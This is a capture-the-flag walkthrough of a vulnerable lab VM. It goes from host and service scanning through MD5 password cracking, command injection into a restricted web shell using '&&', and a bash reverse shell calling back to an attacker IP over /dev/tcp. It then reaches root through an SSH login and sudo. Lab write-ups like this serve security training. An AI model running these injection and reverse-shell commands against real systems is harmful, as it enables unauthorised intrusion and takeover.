### **Netdiscover**



We use the tools called netdiscover scan hosts, we found the 192.168.0.107 is our target virtualbox host ip.

------

### **Namp**



We found some services  <u>HTTP</u>, <u>SSH</u>

------

### Solution

通过python dirsearch.py  -u url   -e py



We found  /admin, /dev /robots.txt.







The web shell needs to login to use,  so we login in admin page, but we have no users and passwords.

we can find in this dev page, exists some email, we inspect source code.



By crack md5 password,  We can find two pair: **nick == > bulldog, sarah ==> bulldoglover**

Now let we login in nick, of cource sarah same.



Nothing found in page. so we turn to /dev webshell.



Found only six command can use, So we generate  shell at first, but can't make effect.

We guessed that wether we could append root user to /etc/passwd. 

But Error.

So let's try to bypass, we use &&



Then we execute our shell file.But nc's error occur, may this user not installed, So We use basic bash to reverse shell.

`echo '1' && echo 'bash -i >& /dev/tcp/192.168.0.106/2333 0>&1' > reverse.sh`

`echo '1' && chmod +x reverse.sh`

`echo '1' && bash reverse.sh` 



reverse shell successfully!!!

So we find /home directory and some interesting found.



according to this note, may the django login from this App, we may find somethings from it.



After some retries, we found this password :**SUPERultimatePASSWORDyouCANTget**

ssh login with django, it's ok.



We find wether the django user has sudo prilivege.



So we can su root to get root privilege.



------

**That' all , Thanks for your watching**